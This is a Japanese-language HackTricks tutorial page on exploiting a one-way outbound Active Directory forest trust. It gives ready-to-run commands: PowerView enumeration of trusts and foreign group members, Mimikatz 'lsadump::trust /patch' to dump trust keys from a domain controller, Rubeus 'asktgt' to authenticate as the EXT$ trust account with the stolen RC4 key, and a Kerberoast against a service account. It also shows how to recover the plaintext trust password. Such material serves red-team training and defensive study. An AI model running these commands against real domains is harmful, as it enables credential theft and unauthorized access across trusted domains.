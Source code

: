 # 外部フォレストドメイン - 一方向（アウトバウンド）

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

このシナリオでは、**あなたのドメイン**が**異なるドメイン**のプリンシパルに**いくつかの権限**を**信頼**しています。

## 列挙

### アウトバウンドトラスト
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

セキュリティの脆弱性は、ドメイン **A** とドメイン **B** の間に信頼関係が確立されるときに存在します。ここで、ドメイン **B** はドメイン **A** に対して信頼を拡張します。この設定では、ドメイン **B** のためにドメイン **A** に特別なアカウントが作成され、これは2つのドメイン間の認証プロセスにおいて重要な役割を果たします。このアカウントはドメイン **B** に関連付けられており、ドメイン間でサービスにアクセスするためのチケットを暗号化するために使用されます。

ここで理解すべき重要な点は、この特別なアカウントのパスワードとハッシュが、コマンドラインツールを使用してドメイン **A** のドメインコントローラーから抽出できるということです。このアクションを実行するためのコマンドは次のとおりです:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
この抽出は、名前の後に**$**が付いたアカウントがアクティブであり、ドメイン**A**の「Domain Users」グループに属しているため、これに関連する権限を継承しているため可能です。これにより、個人はこのアカウントの資格情報を使用してドメイン**A**に対して認証することができます。

**警告:** この状況を利用して、ユーザーとしてドメイン**A**に足場を築くことは可能ですが、権限は限られています。しかし、このアクセスはドメイン**A**での列挙を行うには十分です。

`ext.local`が信頼するドメインで、`root.local`が信頼されたドメインであるシナリオでは、`root.local`内に`EXT$`という名前のユーザーアカウントが作成されます。特定のツールを使用することで、Kerberos信頼キーをダンプし、`root.local`内の`EXT$`の資格情報を明らかにすることが可能です。これを達成するためのコマンドは次のとおりです:
```bash
lsadump::trust /patch
```
これに続いて、抽出したRC4キーを使用して、別のツールコマンドを使用して`root.local`内の`root.local\EXT$`として認証することができます:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
この認証ステップは、`root.local` 内のサービスを列挙し、さらには悪用する可能性を開きます。たとえば、次のコマンドを使用してサービスアカウントの資格情報を抽出するために Kerberoast 攻撃を実行することができます：
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### 明文の信頼パスワードの収集

前のフローでは、**明文パスワード**の代わりに信頼ハッシュが使用されました（これは**mimikatzによってダンプされました**）。

明文パスワードは、mimikatzの\[ CLEAR ]出力を16進数から変換し、ヌルバイト‘\x00’を削除することで取得できます：

![](<../../.gitbook/assets/image (938).png>)

信頼関係を作成する際に、ユーザーが信頼のためにパスワードを入力する必要がある場合があります。このデモでは、キーは元の信頼パスワードであり、したがって人間が読み取れるものです。キーがサイクルする（30日ごと）と、明文は人間が読み取れなくなりますが、技術的には依然として使用可能です。

明文パスワードは、信頼アカウントとして通常の認証を行うために使用でき、信頼アカウントのKerberos秘密鍵を使用してTGTを要求する代替手段となります。ここでは、ext.localからroot.localに対してDomain Adminsのメンバーをクエリしています：

![](<../../.gitbook/assets/image (792).png>)

## 参考文献

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
